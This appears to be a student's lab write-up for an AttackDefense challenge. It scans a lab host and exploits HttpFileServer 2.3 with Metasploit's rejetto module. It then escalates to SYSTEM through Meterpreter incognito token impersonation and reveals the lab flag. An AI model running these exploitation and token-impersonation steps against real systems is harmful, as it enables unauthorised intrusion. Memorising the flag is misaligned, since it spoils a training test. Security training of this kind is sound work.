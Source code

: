 # 🔬Access Token

## Lab 1

>  🔬 [Privilege Escalation: Impersonate](https://attackdefense.com/challengedetails?cid=2353)
>
>  - Target IP: `10.4.22.75`
>  - **Access Token impersonation** 

### Enumeration

```bash
nmap 10.4.22.75
```

```bash
PORT      STATE SERVICE
80/tcp   open  http
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
3389/tcp open  ms-wbt-server
```

- Determine the version information of the web server on port `80`

```bash
nmap -sV -p 80 10.4.22.75
```

```bash
80/tcp open  http    HttpFileServer httpd 2.3
```

- Without using `nmap`, the `http` server version can be checked in a browser by opening the link
  - `http://10.4.22.75/`

### Exploitation

```bash
searchsploit hfs
msfconsole -q
```

- Set the target IP as **GLOBAL RHOSTS variable**

```bash
setg RHOSTS 10.4.22.75
```

```bash
search rejetto
use exploit/windows/http/rejetto_hfs_exec
options
exploit
```

```bash
sysinfo
    Computer        : ATTACKDEFENSE
    OS              : Windows 2016+ (10.0 Build 17763).
    Architecture    : x64
    System Language : en_US
    Meterpreter     : x86/windows
```

- Migrate current x86 `meterpreter` session to a x64 process

```bash
pgrep explorer
migrate 3640
    [*] Migrating from 1692 to 3640...
    [-] core_migrate: Operation failed: Access is denied.

getuid
	Server username: NT AUTHORITY\LOCAL SERVICE
# LOCAL SERVICE account is by default unprivileged

getprivs
    SeAssignPrimaryTokenPrivilege
    SeAuditPrivilege
    SeChangeNotifyPrivilege
    SeCreateGlobalPrivilege
    SeImpersonatePrivilege
    SeIncreaseQuotaPrivilege
    SeIncreaseWorkingSetPrivilege
    SeSystemtimePrivilege
    SeTimeZonePrivilege
```

- This `meterpreter` session (with this particular user account) can be utilized to impersonate other access tokens available.

### Privilege Escalation

#### Access Token Impersonation

```bash
load incognito
# if the session dies, run the exploit again
```

```bash
list_tokens -u

    Delegation Tokens Available # Interactive Logon
    ========================================
    ATTACKDEFENSE\Administrator
    NT AUTHORITY\LOCAL SERVICE

    Impersonation Tokens Available # Non-Interactive Logon
    ========================================
    No tokens available
```

![incognito Meterpreter module](.gitbook/assets/image-20230317130902280.png)

- `ATTACKDEFENSE\Administrator` account access token would provide elevated privileges

```bash
impersonate_token "ATTACKDEFENSE\Administrator"

getuid
	Server username: ATTACKDEFENSE\Administrator
getprivs
	[-] stdapi_sys_config_getprivs: Operation failed: Access is denied.
pgrep explorer
migrate 3640

getprivs
```

![Access Token Impersonation](.gitbook/assets/image-20230317131313929.png)

- Listing tokens with this account, there can be additional available tokens

```bash
list_tokens -u

    Delegation Tokens Available
    ========================================
    ATTACKDEFENSE\Administrator
    NT AUTHORITY\LOCAL SERVICE
    NT AUTHORITY\SYSTEM
    Window Manager\DWM-1

    Impersonation Tokens Available
    ========================================
    Font Driver Host\UMFD-0
    Font Driver Host\UMFD-1
    NT AUTHORITY\NETWORK SERVICE
```

- `NT AUTHORITY\SYSTEM` can be impersonated, getting the privileges associated with its access token

```bash
impersonate_token "NT AUTHORITY\SYSTEM"
```

- In the case of no Delegation or Impersonation tokens found, the `Potato Attack` can be used to get or generate a `NT AUTHORITY/SYSTEM` access token, impersonating it and obtain privileges associated to it.
- Get the flag of the lab:

```
cd C:\\Users\\Administrator\\Desktop\\
```

<details>
<summary>Reveal Flag: 🚩</summary>



`x28c832a39730b7d46d6c38f1ea18e12`

![](.gitbook/assets/image-20230317132422697.png)

</details>

------

